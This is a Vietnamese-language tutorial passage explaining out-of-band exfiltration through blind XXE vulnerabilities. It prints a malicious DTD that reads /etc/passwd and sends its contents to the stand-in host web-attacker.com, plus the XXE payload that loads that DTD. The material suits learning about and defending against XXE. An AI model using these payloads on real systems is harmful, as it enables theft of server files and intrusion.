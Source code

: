 # Overview

Phát hiện một lỗ hổng XXE blind thông qua các kỹ thuật out-of-band là rất tốt, nhưng nó không thực sự chỉ ra cách lỗ hổng có thể được khai thác. Điều mà một attacker thực sự muốn đạt được là truyền tải dữ liệu nhạy cảm. Điều này có thể được thực hiện thông qua lỗ hổng XXE mù, nhưng nó bao gồm kẻ tấn công chứa một DTD độc hại trên một hệ thống mà họ kiểm soát, sau đó triệu gọi DTD bên ngoài từ trong tải XXE trong-band.

Dưới đây là một ví dụ về DTD độc hại để truyền tải nội dung của tập tin /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD này thực hiện các bước sau:

- Xác định một entity XML parameter có tên `file`, chứa nội dung của tập tin `/etc/passwd`.

- Xác định một entity XML parameter có tên `eval`, chứa một khai báo động của một entity XML parameter khác có tên `exfiltrate`. Entity `exfiltrate` sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của attacker, chứa giá trị của entity file trong chuỗi truy vấn URL.

- Sử dụng entity `eval`, làm cho khai báo động của entity `exfiltrate` được thực hiện.

- Sử dụng entity `exfiltrate`, để giá trị của nó được đánh giá bằng cách yêu cầu URL đã chỉ định.

Attacker sau đó phải chứa DTD độc hại trên một hệ thống mà họ kiểm soát, thông thường là bằng cách tải nó lên máy chủ web của riêng mình. Ví dụ, attacker có thể cung cấp DTD độc hại theo đường dẫn URL sau:

`http://web-attacker.com/malicious.dtd`

Cuối cùng, attacker phải gửi tải XXE sau đây đến ứng dụng có lỗ hổng:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Payload XXE này khai báo một entity XML parameter có tên `xxe` và sau đó sử dụng entity trong DTD. Điều này sẽ khiến trình phân tích XML truy xuất DTD bên ngoài từ máy chủ của attacker và giải thích nó trực tiếp. Các bước được xác định trong DTD độc hại sau đó được thực hiện, và tập tin `/etc/passwd` được truyền tải đến máy chủ của kẻ tấn công.
